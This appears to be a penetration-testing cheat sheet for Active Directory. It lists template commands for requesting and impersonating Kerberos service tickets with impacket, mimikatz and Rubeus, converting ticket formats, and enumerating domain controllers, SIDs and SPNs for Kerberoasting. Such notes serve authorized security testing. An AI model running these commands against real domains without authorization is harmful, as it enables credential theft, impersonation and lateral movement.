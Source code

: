 ## TGS
### impacket
```shell
impacket-getST -dc-ip `dc` [domain]/[user]:[password] -spn [service]/[host]
# Options
# -hashes [hash]
# -impersonate [user]
# Note: Automatically modifies impersonate TGS so it can be used with other impacket tools.
```
### mimikatz / rubeus
```shell
privilege::debug
token::elevate

kerberos::ask /target:[SPN]/[FQDN]
# /export to export


# b) Rubeus
.\Rubeus.exe asktgs /service:[SPN]/[FQDN]
# Options
# /enctype:
# /user:[username]  
# /password:[password]
# if you don’t have password but have hash, replace /password: with /rc4: /aes128: /aes256: or /des:
```
## Convert tickets
```shell
impacket-ticketConverter admin.kirbi admin.ccache

# https://en.hackndo.com/kerberos/
# https://medium.com/@mayank_prajapati/all-you-need-to-know-about-kerberoasting-7215de0462c8
```
# ***Utils***
## Get DCIP
```shell
# NXC
nxc ldap `dc` -u 'user' -p 'pass' --dc-list
```
## Get Domain SID
```shell
# PV
Get-DomainSID

# NXC
nxc ldap `dc` -u 'user' -p 'pass' -k --get-sid

# Impacket
impacket-lookupsid guest@`dc` -no-pass
```
## Get SPNs
*Services launched by system itself will have **LocalSystem**, **LocalService**, or **NetworkService** SAs*
```shell
# All SPNs in Domain
Get-DomainUser -SPN | Select SamAccountName,serviceprincipalname | Sort SamAccountName
```